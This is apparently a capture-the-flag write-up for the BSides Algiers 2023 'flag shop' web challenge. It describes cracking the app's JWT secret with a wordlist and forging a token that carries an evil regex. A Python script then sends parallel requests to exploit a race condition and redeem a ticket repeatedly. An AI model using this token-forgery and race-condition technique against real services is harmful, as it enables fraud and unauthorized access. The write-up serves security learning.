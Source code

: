 # bsides-algiers-2023-flagshop
Writeup for the flag shop challenge in the web category from bsides algiers CTF
# info about the challenge
- Description: They got some fancy flags out there, but that one really takes time to get.
- Solves: 7
- Author: ouxs
- The code provides is in app.py and utils.py
# solution
[home page](./writeup1.png) \
&nbsp;&nbsp;When we first register a user to the website ,we see in the home page 3 flags and to solve the challenge we need to buy the flag that has a price of 40.99.
  
 &nbsp;&nbsp;We can see that we have an initial balance of 10 and an option to redeem a ticket and add 10 to the balance, in order to see the format needed for the tickets we must see the code ,in app.py after checking the /redeem route we see many important informations in this section of the code:
  
```python
ticket = request.form["ticket"]
        token_content = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
        username, regex = token_content["username"], token_content["ticket_regex"]
        if checkRedeem(username) and checkTicket(regex, ticket):
            userRedeem(username)
            return render_template("home.html", flags=flags, message="Ticket redeemed", balance=getBalance(username))
        else:
            return render_template("home.html", flags=flags, message="Can't redeem ticket", balance=getBalance(username))
```

   We can see that jwt is used and it has a ticket_regex in the payload, the regex is generated with the generateticket funtion in utils.py, we can clearly see that if a user sends a valid ticket once he will no longer be able to use the redeem option and thus the maximum balance he can have is 20 so we need to find a way to use the userRedeem function more than once. \
   I tried cracking the jwt to get the secret key using john the ripper and the rockyou wordlist to see if i can play with the jwt payload, i found the secret key: chickencurry. 
   
   After some research on how can regex be hard for computers to match against strings i found something called evil regex which are usually used for redos, so i thought of making a regex that can make the web server take long to match with the ticket so all the requests can pass the checkRedeem function before executing userRedeem(). 
   
   I experimented with some regex locally and i made this one ^(a+)+$| and the ticket that i will send is "aaaaaaaaaaaaaaaaaaaaaaaa!", this will match the regex and take sometime because the webserver will try the first regex (a+)+$ which is an evil regex and does not match the ticket so it will test all the possible ways to say that it doesn't match and with the or operator it will match the second regex so we will return a matching object. 
   
   Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price. 
   
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send 5 POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   edit your token cookie with the jwt that you have, now you can buy the real flag!
   
